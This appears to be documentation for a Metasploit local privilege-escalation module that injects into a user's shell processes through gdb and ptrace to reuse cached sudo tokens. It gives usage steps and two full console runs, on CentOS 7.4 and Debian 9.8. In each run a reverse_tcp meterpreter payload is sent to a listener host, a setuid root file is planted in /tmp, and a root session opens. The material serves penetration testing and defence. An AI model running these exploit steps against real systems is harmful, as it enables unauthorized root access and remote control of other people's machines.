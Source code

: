 ## Description

  This module attempts to gain root privileges by blindly injecting into
  the session user's running shell processes and executing commands by
  calling `system()`, in the hope that the process has valid cached sudo
  tokens with root privileges.

  The system must have gdb installed and permit ptrace.


## Vulnerable Application

  This module has been tested successfully on:

  * Debian 9.8 (x64)
  * CentOS 7.4.1708 (x64)


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. `use exploit/linux/local/ptrace_sudo_token_priv_esc`
  4. `set SESSION <SESSION>`
  5. `check`
  6. `run`
  7. You should get a new *root* session


## Options

  **SESSION**

  Which session to use, which can be viewed with `sessions`

  **TIMEOUT**

  Process injection timeout (seconds) (default: `30`)

  **WritableDir**

  A writable directory file system path. (default: `/tmp`)


## Scenarios

### CentOS 7.4.1708 (x64)
  
  ```
  msf5 > use exploit/linux/local/ptrace_sudo_token_priv_esc 
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] YAMA ptrace scope is not restrictive
  [+] SELinux deny_ptrace is disabled
  [+] sudo is installed
  [+] gdb is installed
  [*] Searching for shell processes ...
  [*] Found 3 running shell processes
  [*] 2343, 2483, 2958
  [*] Writing '/tmp/.ka44kFCm8XyMEZ' (329 bytes) ...
  [*] Injecting into process 2343 ...
  [*] Injecting into process 2483 ...
  [*] Injecting into process 2958 ...
  [+] /tmp/.ka44kFCm8XyMEZ setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.141

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.141:53462) at 2019-08-10 02:49:48 -0400
  [-] Failed to delete /tmp/.ka44kFCm8XyMEZ: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : centos-7-1708.localdomain
  OS           : CentOS 7.4.1708 (Linux 3.10.0-693.el7.x86_64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```

### Debian 9.8 (x64)

  ```
  msf5 > use exploit/linux/local/ptrace_sudo_token_priv_esc 
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set session 1
  session => 1
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set payload linux/x64/meterpreter/reverse_tcp 
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set lhost 172.16.191.165
  lhost => 172.16.191.165
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > set verbose true
  verbose => true
  msf5 exploit(linux/local/ptrace_sudo_token_priv_esc) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [+] YAMA ptrace scope is not restrictive
  [+] sudo is installed
  [+] gdb is installed
  [*] Searching for shell processes ...
  [*] Found 5 running shell processes
  [*] 661, 891, 23499, 23518, 23541
  [*] Writing '/tmp/.Dpq90j6vOk' (329 bytes) ...
  [*] Injecting into process 661 ...
  [*] Injecting into process 891 ...
  [*] Injecting into process 23499 ...
  [*] Injecting into process 23518 ...
  [+] /tmp/.Dpq90j6vOk setuid root successfully
  [*] Executing payload...
  [*] Transmitting intermediate stager...(126 bytes)
  [*] Sending stage (3021284 bytes) to 172.16.191.232

  [*] Meterpreter session 2 opened (172.16.191.165:4444 -> 172.16.191.232:50744) at 2019-08-10 02:54:34 -0400
  [-] Failed to delete /tmp/.Dpq90j6vOk: stdapi_fs_delete_file: Operation failed: 1

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : debian-9-8-x64.local
  OS           : Debian 9.8 (Linux 4.9.0-8-amd64)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  meterpreter > 
  ```


